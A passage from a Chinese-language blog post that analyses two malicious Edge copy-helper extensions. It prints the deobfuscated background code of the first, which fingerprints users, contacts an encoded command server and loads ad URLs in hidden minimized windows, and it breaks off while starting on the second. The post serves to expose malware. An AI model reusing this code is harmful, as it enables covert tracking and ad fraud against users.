


# 对两个 Edge 复制插件的恶意行为分析

太棒了，我电脑中招了.jpg

接触电脑时随意安装的浏览器插件在两年后背刺我了

<!-- more -->

## Intro

电脑上两年前下载的复制相关的插件被发现都存在恶意行为





去 `%LOCALAPPDATA%\Microsoft\Edge\User Data\Default\Extensions\` 找到对应的插件，分别进行分析

## First-one

看一眼这个恶意脚本的结构

```json title="manifest.json"
{
   "action": {
      "default_icon": "img/ico19_disable.png",
      "default_popup": "popup.html",
      "default_title": "超级复制"
   },
   "background": {
      "service_worker": "js/inclusive.js"
   },
   "content_scripts": [ {
      "all_frames": true,
      "js": [ "js/stadium.js" ],
      "matches": [ "\u003Call_urls>" ],
      "run_at": "document_end"
   } ],
   "default_locale": "zh_CN",
   "description": "__MSG_description__",
   "host_permissions": [ "http://*/*", "https://*/*" ],
   "icons": {
      "128": "img/ico.png"
   },
   // "key": "...",
   "manifest_version": 3,
   "name": "超级复制",
   "options_page": "option.html",
   "permissions": [ "tabs", "storage", "webNavigation", "windows", "system.display", "alarms", "declarativeNetRequest", "scripting" ],
   "update_url": "https://edge.microsoft.com/extensionwebstorebase/v1/crx",
   "version": "5.3",
   "web_accessible_resources": [ {
      "matches": [ "*://*/*" ],
      "resources": [ "/*" ]
   } ]
}

```

permissions 栏申请了一堆权限（能控制标签页，监听页面事件，创建浏览器窗口，还能定时运行，修改请求头，以及动态注入），勉强地说 `scripting` 权限在理解范围之内，可疑的在于 `alarm`，它会定时自行执行

进一步的，这个插件会进行常驻的后台服务

```json
"background": {
      "service_worker": "js/inclusive.js"
   },
   "content_scripts": [ {
      "all_frames": true,
      "js": [ "js/stadium.js" ],
      "matches": [ "\u003Call_urls>" ],
      "run_at": "document_end"
   } ],
```

非常 sus，推测恶意脚本的逻辑就出现在这里

在看恶意脚本之前，先看看 `code.js` 的正常功能逻辑（注释是原程序就有的）：

```js title="code.js"
var supercopy = function(){
  var doc     = document;
  var head    = document.head;
  var body    = document.body;
  var html    = document.documentElement;
  var jQuery  = window.jQuery;
  var userSelectCss = 'user-select: text !important;-webkit-user-select: text !important;-webkit-touch-callout: text !important;';
  this.init = function(){
    single();  //删除html和body中的user-select属性和所有的编辑事件，并添加一个全局的user-select:text样式，准许所有的文字选中
    repeat(); //删除所有标签的user-select属性，并停用所有事件冒泡，并全部添加上user-select:text样式，准许所有的文字选中
    special(); //删掉所有通过$.on绑定的关于文字编辑的事件
  };
  //单一动作
  var single = function(){
    html.onselectstart = html.oncopy = html.oncut = html.onpaste = html.onkeyup = html.onkeydown = html.oncontextmenu = html.onmousemove = html.onmousedown = html.onmouseup = html.ondragstart = null;
    body.onselectstart = body.oncopy = body.oncut = body.onpaste = body.onkeyup = body.onkeydown = body.oncontextmenu = body.onmousemove = body.onmousedown = body.onmouseup = body.ondragstart = null;
    doc.onselectstart = doc.oncopy = doc.oncut = doc.onpaste = doc.onkeyup = doc.onkeydown = doc.oncontextmenu = doc.onmousemove = doc.onmousedown = doc.onmouseup = doc.ondragstart = null;
    window.onkeyup = window.onkeydown = null;

    //删除body
    if(body.style.userSelect){
      body.setAttribute('style', userSelectCss);
    }
    if(html.style.userSelect){
      html.setAttribute('style', userSelectCss);
    }
    removeAttr(body);
    removeAttr(html);

    //添加user-select属性
    var cssid   = 'supercopy_user_select';
    if(!document.getElementById(cssid)){
      var element = document.createElement('style');
      element.id  = cssid;
      element.append('*{'+userSelectCss+'}');
      head.append(element);
    }

    ['copy','cut','contextmenu','selectstart','mousedown','mouseup','mousemove','keydown','keypress','keyup'].forEach(evt => {
      document.documentElement.addEventListener(evt, handler, {capture: true})
    });
  };

  //循环动作
  var repeat = function(){
    var labels          = ['html', 'body', 'div', 'p' , 'b' , 'strong' , 'small', 'span', 'pre', 'a' , 'form' , 'iframe', 'ul', 'li' ,'dl' , 'dt', 'dd', 'table', 'tr' ,'td' ,'h1' ,'h2' ,'h3' ,'h4' ,'h5' ,'h6'];
    var style;
    for (i in labels) {
      var divs = document.getElementsByTagName(labels[i]);
      var len = divs.length;
      for (var i = 0; i < len; ++i) {
        var obj  = divs[i];
        //CSS
        if(obj){
          style         = obj.currentStyle? obj.currentStyle : window.getComputedStyle(obj, null);
          if(style.userSelect == "none"){
            obj.setAttribute('style', userSelectCss);
          }
        }
        //Script
        removeAttr(obj);
        var actions     = ['select' ,'selectstart' ,'selectend', 'copy', 'cut', 'paste', 'keydown', 'keyup', 'keypress', 'contextmenu', 'dragstart'];
        for (j in actions) {
          obj.addEventListener(actions[j], handler);
        }
      }
    }
  };

  //特殊处理
  var special = function(){
    if(jQuery && jQuery(body) && (typeof jQuery(body).off) != "undefined"){
      jQuery(body).off('contextmenu copy cut beforecopy beforecut beforepaste');
    }
  };

  //删除所有关于文字编辑的js事件
  var removeAttr = function (element) {
    element.removeAttribute('oncontextmenu');
    element.removeAttribute('ondragstart');
    element.removeAttribute('onselect');
    element.removeAttribute('onselectstart');
    element.removeAttribute('onselectend');
    element.removeAttribute('oncopy');
    element.removeAttribute('onbeforecopy');
    element.removeAttribute('oncut');
    element.removeAttribute('onpaste');
    element.removeAttribute('onclick');
    element.removeAttribute('onkeydown');
    element.removeAttribute('onkeyup');
    element.removeAttribute('onmousedown');
    element.removeAttribute('onmouseup');
    element.removeAttribute('unselectable');
    if(jQuery && jQuery(body) && (typeof jQuery(body).off) != "undefined"){
      jQuery(element).off('contextmenu copy cut beforecopy beforecut beforepaste');
      jQuery(element).unbind();
    }
  };

  //阻止冒泡
  var handler = function (event) {
    event.stopPropagation();
    if(event.stopImmediatePropagation){event.stopImmediatePropagation();}
    event.returnValue = true;
  }
};
var copy = new supercopy();
copy.init();
[1000, 3000, 5000, 10000].forEach(delay => {
  setTimeout(copy.init, delay);
});
```

确实是有效功能，没有混淆，甚至不像 LLMs 写的（之后会发现这个脚本是从其他地方抄来的加了点注释）

现在的分析核心就在于 `inclusive.js`

`inclusive.js` 被压缩和混淆，分成两个 Webpack Bundle。初步美化之后，在很近的地方就发现了奇怪的逻辑

```js hl_lines="16"
async function n(e, t) {
    const n = {
        v: "2",
        tid: e.tid,
        cid: e.cid,
        en: t,
        "ep.version": "" + chrome.runtime.getManifest().version,
        "ep.name": "" + chrome.runtime.getManifest().name,
        "ep.nid": `${chrome.runtime.getManifest().name}:${chrome.runtime.id}`,
        "ep.id": "" + chrome.runtime.id,
        "ep.t": e.type,
        "ep.update_url": "" + chrome.runtime.getManifest().update_url,
    },
          r =
          "https://www.google-analytics.com/g/collect?" +
          new URLSearchParams(n).toString();
    await fetch(r, { method: "POST", body: "" });
}
let r = await (async function () {
    let e = await (function (e) {
        return new Promise((t, n) => {
            try {
                chrome.storage.local.get(e, function (n) {
                    t(null == e ? n : n[e]);
                });
            } catch (e) {
                n(e);
            }
        });
    })("app");
    return (
        e ||
        ((e = {}),
         (e.t = new Date().getTime() - 0),
         (e.act = new Date().getTime()),
         (e.type = "" + (await chrome.management.getSelf()).installType),
         (e.cid = (function () {
            for (var e = [], t = "0123456789abcdef", n = 0; n < 36; n++)
                e[n] = t.substr(Math.floor(16 * Math.random()), 1);
            return (
                (e[14] = "4"),
                (e[19] = t.substr((3 & e[19]) | 8, 1)),
                (e[8] = e[13] = e[18] = e[23] = "-"),
                e.join("")
            );
        })()),
         (e.tid = "G-KRJGVNRLZB"),
         await t("app", e),
         n(e, "in")),
        e
    );
})();
```

通过 Google Analysis 进行匿名用户跟踪，为每个用户构建唯一的 UUID，已经很不对劲了

继续翻到 2k 行左右时，忽然发现一串中文

```js hl_lines="3 30"
function p() {
    var t = chrome.runtime.getManifest().update_url,
        e = "未知OS";
    return t
        ? (t.indexOf("microsoft.com") > 0 && (e = "edge"),
           t.indexOf("google.com") > 0 && (e = "chrome"),
           t.indexOf("360.cn") > 0 && (e = "360"),
           e)
    : e;
}
```

推测它所在的 `8da0` 就是插件的恶意程序段，这里给出适当的注释：

（对于第二个 Bundle，除了下面的恶意程序段，剩下的内容都是原版的 core-js）

```js title="8da0"
"8da0": function (t, e, r) {
    var n = r("c973").default;
    // 导入一些依赖
    (r("e260"),
     r("e6cf"),
     r("cca6"),
     r("a79d"),
     r("96cf"),
     r("e323"),
     r("a15b"),
     r("4d12"),
     r("d401"),
     r("81b2"),
     r("0eb6"),
     r("b7ef"),
     r("8bd4"),
     r("d81d"),
     r("ac1f"),
     r("1276"),
     r("c975"),
     r("4795"),
     r("d3b7"),
     r("0d03"),
     r("33d1"),
     r("ea98"),
     r("b0c0"),
     r("99af"));
    var o = "localDataKey_Name";

    // 子函数，生成标注的 UUID v4
    function i() {
        for (var t = [], e = "0123456789abcdef", r = 0; r < 36; r++)
            t[r] = e.substr(Math.floor(16 * Math.random()), 1);
        return (
            (t[14] = "4"),
            (t[19] = e.substr((3 & t[19]) | 8, 1)),
            (t[8] = t[13] = t[18] = t[23] = "-"),
            t.join("")
        );
    }

    // Base64 解码为 UTF-8
    function c(t) {
        return decodeURIComponent(escape(atob(t)));
    }

    // 凯撒偏移（-5）
    function a(t) {
        return t
            .split("")
            .map(function (t) {
            return String.fromCharCode(t.charCodeAt(0) - 5);
        })
            .join("");
    }

    // 包装复用函数 f
    function u(t) {
        return f.apply(this, arguments);
    }

    // 读 Chrome 存储
    function f() {
        return (f = n(
            regeneratorRuntime.mark(function t(e) {
                var r;
                return regeneratorRuntime.wrap(function (t) {
                    for (; ;)
                        switch ((t.prev = t.next)) {
                            case 0:
                                return ((t.next = 2), chrome.storage.local.get(e));
                            case 2:
                                if (((r = t.sent), null != e)) {
                                    t.next = 5;
                                    break;
                                }
                                return t.abrupt("return", r);
                            case 5:
                                return t.abrupt("return", r[e]);
                            case 6:
                            case "end":
                                return t.stop();
                        }
                }, t);
            }),
        )).apply(this, arguments);
    }

    // 包装复用函数 d
    function s(t, e) {
        return d.apply(this, arguments);
    }

    // 写 Chrome 存储
    function d() {
        return (d = n(
            regeneratorRuntime.mark(function t(e, r) {
                var n;
                return regeneratorRuntime.wrap(function (t) {
                    for (; ;)
                        switch ((t.prev = t.next)) {
                            case 0:
                                return (
                                    ((n = {})[e] = r),
                                    (t.next = 4),
                                    chrome.storage.local.set(n)
                                );
                            case 4:
                            case "end":
                                return t.stop();
                        }
                }, t);
            }),
        )).apply(this, arguments);
    }

    // 检测当前浏览器类型
    function p() {
        var t = chrome.runtime.getManifest().update_url,
            e = "未知OS";
        return t
            ? (t.indexOf("microsoft.com") > 0 && (e = "edge"),
               t.indexOf("google.com") > 0 && (e = "chrome"),
               t.indexOf("360.cn") > 0 && (e = "360"),
               e)
        : e;
    }

    // 包装复用函数 v
    function l() {
        return v.apply(this, arguments);
    }

    // 初始化 or 获取用户配置
    function v() {
        return (v = n(
            regeneratorRuntime.mark(function t() {
                var e;
                return regeneratorRuntime.wrap(function (t) {
                    for (; ;)
                        switch ((t.prev = t.next)) {
                            case 0:
                                return ((t.next = 2), u(o));
                            case 2:
                                return (
                                    // 创建时间 + 激活时间
                                    // 浏览器类型
                                    // 通信间隔
                                    // 通信服务器地址（Base64 编码）
                                    // 生成用户 ID
                                    (e = t.sent) ||
                                    (((e = {}).createTime = new Date().getTime()),
                                     (e.avticeTime = new Date().getTime()),
                                     (e.os = p()),
                                     (e.at = 86400),
                                     // Base64 解码为 http://app.cdn.taojj.vip/
                                     (e.key = "aHR0cDovL2FwcC5jZG4udGFvamoudmlwLw"),
                                     (e.userid = i())),
                                    (t.next = 6),
                                    s(o, e)
                                );
                            case 6:
                                return t.abrupt("return", e);
                            case 7:
                            case "end":
                                return t.stop();
                        }
                }, t);
            }),
        )).apply(this, arguments);
    }

    // 给定延迟时长，延迟移除标签页
    function h(t, e, r, n) {
        0 !== r
            ? setTimeout(function () {
            t.remove(e, function () {
                n();
            });
        }, r)
        : t.remove(e, function () { });
    }

    // 封装 fetch
    function b(t, e) {
        return fetch(t, e);
    }

    // 包装复用函数 g
    function g(t) {
        return y.apply(this, arguments);
    }

    // 发送、接收服务器端请求
    function y() {
        return (y = n(
            regeneratorRuntime.mark(function t(e) {
                var r, n, i, f, d, p, l, v, h;
                return regeneratorRuntime.wrap(function (t) {
                    for (; ;)
                        switch ((t.prev = t.next)) {
                            case 0:
                                return (
                                    (r = chrome.runtime.id),
                                    (n = chrome.runtime.getManifest().name),
                                    (t.next = 4),
                                    u(o)
                                );
                            case 4:
                                return (
                                    (i = t.sent),
                                    (f = ""
                                     // 恶意服务器地址
                                     // 接口为 api/active
                                     // 携带四个参数
                                     .concat(c(i.key), "api/active?extId=")
                                     .concat(r, "&extName=")
                                     .concat(n, "&userid=")
                                     .concat(i.userid, "&displayId=")
                                     .concat(e)),
                                    (t.next = 8),
                                    b(f, {})
                                );
                            case 8:
                                // 获得 JSON 响应
                                return ((d = t.sent), (t.next = 11), d.json());
                            case 11:
                                // 响应码应该为 0
                                if (0 !== (p = t.sent).code) {
                                    t.next = 22;
                                    break;
                                }
                                return (
                                    // 得到服务端返回的 token
                                    (l = p.data.token),
                                    // Base64 解码后逐位左移 5 位
                                    (v = a(c(l))),
                                    // 解析为 JSON 配置，保存
                                    (h = JSON.parse(v)),
                                    (i.avticeTime = new Date().getTime()),
                                    (i.at = h.datas.at),
                                    (i.token = l),
                                    (t.next = 21),
                                    s(o, i)
                                );
                            case 21:
                                return t.abrupt("return", h);
                            case 22:
                            case "end":
                                return t.stop();
                        }
                }, t);
            }),
        )).apply(this, arguments);
    }


    // 通信部分    
    // --------------------------------------------------------------------
    // 执行部分    

    !(function () {
        var t = n(
            regeneratorRuntime.mark(function t(e, r, i, u, f) {
                var d, p, v;
                return regeneratorRuntime.wrap(function (t) {
                    for (; ;)
                        switch ((t.prev = t.next)) {
                            case 0:
                                return (
                                    // code = 9999 && action = 'active'
                                    // 此时激活广告窗口
                                    (v = function (t, e, r) {
                                        9999 === t.code &&
                                            "active" === t.action &&
                                            d(e.tab.windowId, t);
                                    }),
                                    (p = function () {
                                        return (p = n(
                                            regeneratorRuntime.mark(function t(e, u) {
                                                var d, p, v, b, y, m;
                                                return regeneratorRuntime.wrap(function (t) {
                                                    for (; ;)
                                                        switch ((t.prev = t.next)) {
                                                            case 0:
                                                                return (
                                                                    (m = function () {
                                                                        return (m = n(
                                                                            regeneratorRuntime.mark(function t() {
                                                                                var e,
                                                                                    n,
                                                                                    f,
                                                                                    p,
                                                                                    v,
                                                                                    b,
                                                                                    g,
                                                                                    y,
                                                                                    m,
                                                                                    x,
                                                                                    w,
                                                                                    E;
                                                                                return regeneratorRuntime.wrap(
                                                                                    function (t) {
                                                                                        for (; ;)
                                                                                            switch ((t.prev = t.next)) {
                                                                                                case 0:
                                                                                                    // 获取本地配置
                                                                                                    return ((t.next = 2), l());
                                                                                                case 2:
                                                                                                    // 检查 token
                                                                                                    if ((e = t.sent).token) {
                                                                                                        t.next = 6;
                                                                                                        break;
                                                                                                    }
                                                                                                    return (
                                                                                                        (r.flag = !1),
                                                                                                        t.abrupt("return")
                                                                                                    );
                                                                                                case 6:
                                                                                                    if (
                                                                                                        // 解密 token 后，得到 URL 注入列表
                                                                                                        ((n = a(c(e.token))),
                                                                                                         (f = JSON.parse(n).datas),
                                                                                                         (p = f.urls),
                                                                                                         (v = f.site),
                                                                                                         !(
                                                                                                            p.length <= 0 &&
                                                                                                            v.length <= 0
                                                                                                        ))
                                                                                                    ) {
                                                                                                        t.next = 13;
                                                                                                        break;
                                                                                                    }
                                                                                                    return (
                                                                                                        (r.flag = !1),
                                                                                                        t.abrupt("return")
                                                                                                    );
                                                                                                case 13:
                                                                                                    // 检查当前站点是否匹配
                                                                                                    ((b = !1), (g = 0));
                                                                                                case 15:
                                                                                                    if (!(g < v.length)) {
                                                                                                        t.next = 22;
                                                                                                        break;
                                                                                                    }
                                                                                                    if (
                                                                                                        !(
                                                                                                            u.site.indexOf(v[g]) > 0
                                                                                                        )
                                                                                                    ) {
                                                                                                        t.next = 19;
                                                                                                        break;
                                                                                                    }
                                                                                                    return (
                                                                                                        (b = !0),
                                                                                                        t.abrupt("break", 22)
                                                                                                    );
                                                                                                case 19:
                                                                                                    (g++, (t.next = 15));
                                                                                                    break;
                                                                                                case 22:
                                                                                                    if (0 != b) {
                                                                                                        t.next = 25;
                                                                                                        break;
                                                                                                    }
                                                                                                    return (
                                                                                                        (r.flag = !1),
                                                                                                        t.abrupt("return")
                                                                                                    );
                                                                                                case 25:
                                                                                                    // 判定是否距离上次激活隔了一段时间
                                                                                                    if (
                                                                                                        (e.activeTime ||
                                                                                                         (e.activeTime = 0),
                                                                                                         !(
                                                                                                            new Date().getTime() -
                                                                                                            e.activeTime <
                                                                                                            1e3 * e.at
                                                                                                        ))
                                                                                                    ) {
                                                                                                        t.next = 29;
                                                                                                        break;
                                                                                                    }
                                                                                                    return (
                                                                                                        (r.flag = !1),
                                                                                                        t.abrupt("return")
                                                                                                    );
                                                                                                case 29:
                                                                                                    // 在右下角边缘处，创建一个 50*50 的小窗口
                                                                                                    return (
                                                                                                        (y = d.width - 660),
                                                                                                        (m = d.height - 160),
                                                                                                        (t.next = 33),
                                                                                                        r.create({
                                                                                                            top: m,
                                                                                                            left: y,
                                                                                                            height: 50,
                                                                                                            width: 50,
                                                                                                            focused: !1,	// 不聚焦，保持神秘
                                                                                                        })
                                                                                                    );
                                                                                                case 33:
                                                                                                    return (
                                                                                                        (x = t.sent),
                                                                                                        (t.prev = 34),
                                                                                                        // 最小化
                                                                                                        r.update(x.id, {
                                                                                                            state: "minimized",
                                                                                                        }),
                                                                                                        (t.next = 38),
                                                                                                        l()
                                                                                                    );
                                                                                                case 38:
                                                                                                    // 更新配置
                                                                                                    (((w = t.sent).activeTime =
                                                                                                      new Date().getTime()),
                                                                                                     (w.cid = x.id),
                                                                                                     (w.at = f.at),
                                                                                                     s(o, w),
                                                                                                     (E = 0));
                                                                                                case 44:
                                                                                                    if (!(E < p.length)) {
                                                                                                        t.next = 50;
                                                                                                        break;
                                                                                                    }
                                                                                                    return (
                                                                                                        (t.next = 47),
                                                                                                        // 打开所有的广告 URL
                                                                                                        // 之后的细节不需要在意了
                                                                                                        i.create({
                                                                                                            windowId: x.id,
                                                                                                            url: p[E],
                                                                                                            active: !1,
                                                                                                        })
                                                                                                    );
                                                                                                case 47:
                                                                                                    (E++, (t.next = 44));
                                                                                                    break;
                                                                                                case 50:
                                                                                                    t.next = 54;
                                                                                                    break;
                                                                                                case 52:
                                                                                                    ((t.prev = 52),
                                                                                                     (t.t0 = t.catch(34)));
                                                                                                case 54:
                                                                                                    h(
                                                                                                        r,
                                                                                                        x.id,
                                                                                                        f.t,
                                                                                                        function () {
                                                                                                            r.flag = !1;
                                                                                                        },
                                                                                                    );
                                                                                                case 55:
                                                                                                case "end":
                                                                                                    return t.stop();
                                                                                            }
                                                                                    },
                                                                                    t,
                                                                                    null,
                                                                                    [[34, 52]],
                                                                                );
                                                                            }),
                                                                        )).apply(this, arguments);
                                                                    }),
                                                                    (y = function () {
                                                                        return m.apply(this, arguments);
                                                                    }),
                                                                    (t.next = 4),
                                                                    r.getCurrent()
                                                                );
                                                            case 4:
                                                                if ("maximized" === (d = t.sent).state) {
                                                                    t.next = 7;
                                                                    break;
                                                                }
                                                                return t.abrupt("return");
                                                            case 7:
                                                                return ((t.next = 9), f.getInfo());
                                                            case 9:
                                                                if (!((p = t.sent).length > 1)) {
                                                                    t.next = 12;
                                                                    break;
                                                                }
                                                                return t.abrupt("return");
                                                            case 12:
                                                                return ((v = p[0].id), (t.next = 15), l());
                                                            case 15:
                                                                if (((b = t.sent), e !== b.cid)) {
                                                                    t.next = 18;
                                                                    break;
                                                                }
                                                                return t.abrupt("return");
                                                            case 18:
                                                                if (!r.flag) {
                                                                    t.next = 20;
                                                                    break;
                                                                }
                                                                return t.abrupt("return");
                                                            case 20:
                                                                if (
                                                                    ((r.flag = !0),
                                                                     !(
                                                                        new Date().getTime() - b.avticeTime >
                                                                        1e3 * b.at
                                                                    ))
                                                                ) {
                                                                    t.next = 24;
                                                                    break;
                                                                }
                                                                return ((t.next = 24), g(v));
                                                            case 24:
                                                                y();
                                                            case 25:
                                                            case "end":
                                                                return t.stop();
                                                        }
                                                }, t);
                                            }),
                                        )).apply(this, arguments);
                                    }),
                                    (d = function (t, e) {
                                        return p.apply(this, arguments);
                                    }),
                                    (t.next = 5),
                                    l()
                                );
                            case 5:
                                (t.sent,
                                 r.onFocusChanged.addListener(
                                    (function () {
                                        var t = n(
                                            regeneratorRuntime.mark(function t(e) {
                                                var n;
                                                return regeneratorRuntime.wrap(function (t) {
                                                    for (; ;)
                                                        switch ((t.prev = t.next)) {
                                                            case 0:
                                                                return ((t.next = 2), l());
                                                            case 2:
                                                                ((n = t.sent), e === n.cid && h(r, e, 0));
                                                            case 4:
                                                            case "end":
                                                                return t.stop();
                                                        }
                                                }, t);
                                            }),
                                        );
                                        return function (e) {
                                            return t.apply(this, arguments);
                                        };
                                    })(),
                                ),
                                 (r.flag = !1),
                                 u.addListener(v));
                            case 9:
                            case "end":
                                return t.stop();
                        }
                }, t);
            }),
        );
        return function (e, r, n, o, i) {
            return t.apply(this, arguments);
        };
    })()(
        self,
        chrome.windows,
        chrome.tabs,
        chrome.runtime.onMessage,
        chrome.system.display,
    );
},
```

简单来说，恶意脚本在后台执行，定期与恶意服务器通信，针对当前用户返回广告 URL 清单。当用户在用最大化窗口浏览部分网站时，在后台创建迷你窗口，加载广告，插件的原作者得到广告点击的佣金

此外插件就没有什么更高深的内容了，本来想构造一个请求看看返回内容的，发现接口不可用了，遂作罢

---

事实上这个“超级复制”的插件是 [SuperCopy](https://enablecopy.com/zh_CN) 的仿版（使用了相同的 Logo），后者插件的流行程度更高

巧合的是，这个插件几年前也被发现藏了恶意代码，而且为了避免被发现，其离线脚本的版本是纯净的，而在扩展商店中下载的版本存在恶意脚本

## Second-one

也是看一眼这个恶意脚本的结构

```json title="manifest.json"
{
   "action": {
      "default_icon": "img/ico19_disable.png",
      "default_popup": "popup.html",
      "default_title": "__MSG_name__"
   },
   "background": {
      "service_worker": "js/all.js"
   },
   "content_scripts": [ {
      "css": [ "css/inject.css" ],
      "js": [ "js/content-script.js" ],
      "matches": [ "http://*/*", "https://*/*" ],
      "run_at": "document_end"
   } ],
   "default_locale": "zh_CN",
   "description": "__MSG_description__",
   "homepage_url": "https://microsoftedge.microsoft.com/addons/detail/%E4%B8%93%E4%B8%9ACopy%E4%B8%87%E8%83%BD%E5%A4%8D%E5%88%B6/lmppkgmbapjgihlpadknmfalefnfnfnd?utm_medium=extension&utm_source=webcopy",
   "host_permissions": [ "\u003Call_urls>" ],
   "icons": {
      "128": "img/ico.png"
   },
   // "key": "...",
   "manifest_version": 3,
   "minimum_chrome_version": "93",
   "name": "__MSG_name__",
   "options_page": "options.html",
   "permissions": [ "tabs", "storage", "scripting", "declarativeNetRequestWithHostAccess", "alarms", "webRequest", "declarativeNetRequest" ],
   "update_url": "https://edge.microsoft.com/extensionwebstorebase/v1/crx",
   "version": "1.0.39",
   "web_accessible_resources": [ {
      "matches": [ "\u003Call_urls>" ],
      "resources": [ "*" ]
   } ]
}

```

`"permissions": [ "tabs", "storage", "scripting", "declarativeNetRequestWithHostAccess", "alarms", "webRequest", "declarativeNetRequest" ]` 和上一个插件一样请求了过多的权限，其中 `declarativeNetRequestWithHostAccess` 可以直接修改网络请求，并拥有主机访问权限

（一个复制工具为什么会需要这么多权限呢）

分析一下 js 代码结构，其中 `normal.js` 提供的是正常的复制功能，而 `background.js` 和 `all.js` 共同组成恶意逻辑

`background.js` 中

